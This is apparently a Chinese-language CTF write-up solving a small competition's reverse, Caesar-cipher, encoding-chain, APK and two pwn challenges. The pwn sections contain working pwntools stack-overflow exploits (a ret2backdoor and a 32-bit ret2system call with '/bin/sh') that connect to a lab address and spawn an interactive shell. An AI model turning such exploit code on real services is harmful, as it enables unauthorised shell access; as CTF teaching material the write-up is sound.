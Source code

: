 ```yaml
---
title: 记一次不知名比赛的WP
---
```

# 记一次不知名比赛的WP

## Reverse

### Reverse_签到

找到main函数，就看到了flag

![image-20230620090120146](https://img.crzliang.cn/img/image-20230620090120146.png)

## Crypto

### easily_Caesar

凯撒解码一把梭，key=24

![image-20230620094549028](https://img.crzliang.cn/img/image-20230620094549028.png)

## Misc

### medium_CTFvalues

16进制转文本得到unicode编码

![image-20230620094134558](https://img.crzliang.cn/img/image-20230620094134558.png)

unicode转ascii码得到base64字符串

![image-20230620094222386](https://img.crzliang.cn/img/image-20230620094222386.png)

![image-20230620094242228](https://img.crzliang.cn/img/image-20230620094242228.png)

base64解码得到一个字符串，然后ascii码转文本

![image-20230620094305264](https://img.crzliang.cn/img/image-20230620094305264.png)

### difficult_mobile_3

jadx打开然后全局搜索base64，找字符串后进行ascii转字符

![image-20230620121849142](https://img.crzliang.cn/img/image-20230620121849142.png)

得到，把ip地址进行包裹提交

![image-20230620121956543](https://img.crzliang.cn/img/image-20230620121956543.png)

## Pwn

### easily_pwn_1

程序分析：64位程序，之开启了NX保护

![image-20230620140607482](https://img.crzliang.cn/img/image-20230620140607482.png)

代码分析：有一个read函数和write函数，可以发现read函数（这里buf只有0x80字节，而read需要从buf中读取0x200个字节），存在溢出条件。

![image-20230620140450114](https://img.crzliang.cn/img/image-20230620140450114.png)

然后找是否存在后门函数

![屏幕截图 2023-06-20 140859](https://img.crzliang.cn/img/%E5%B1%8F%E5%B9%95%E6%88%AA%E5%9B%BE%202023-06-20%20140859.png)

找到system函数的地址，是简单的栈溢出，找到偏移量为0x80+8，然后覆盖返回地址就可以了

![屏幕截图 2023-06-20 141330](https://img.crzliang.cn/img/%E5%B1%8F%E5%B9%95%E6%88%AA%E5%9B%BE%202023-06-20%20141330.png)

exp：

```python
from pwn import *
io = remote('192.168.1.1',9002)
# io = process("./helloworld")
offset = 0x80 + 8

payload = offset*b'a' + p64(0x40059A)

io.sendline(payload)
io.interactive()
```

### medium_pwn_2

程序分析：32位程序，开启了32位保护

![image-20230620141634557](https://img.crzliang.cn/img/image-20230620141634557.png)

代码分析：和pwn1一样，看到了read函数，判断存在栈溢出，

![image-20230620141720828](https://img.crzliang.cn/img/image-20230620141720828.png)

又看到了system函数,但是少了'/bin/sh'

![image-20230620141900964](https://img.crzliang.cn/img/image-20230620141900964.png)

找到了system函数，/bin/sh参数，以及溢出条件。明显栈溢出

![image-20230620142144275](https://img.crzliang.cn/img/image-20230620142144275.png)

![image-20230620142020421](https://img.crzliang.cn/img/image-20230620142020421.png)

exp：

```python
from pwn import *
io = remote('192.168.1.1',9006)
# io = process("./helloworld")
offset = 0x88 + 4

payload = offset*b'a' + p32(0x0804845C) + p32(0x0804A024) 

io.sendline(payload)
io.interactive()
```
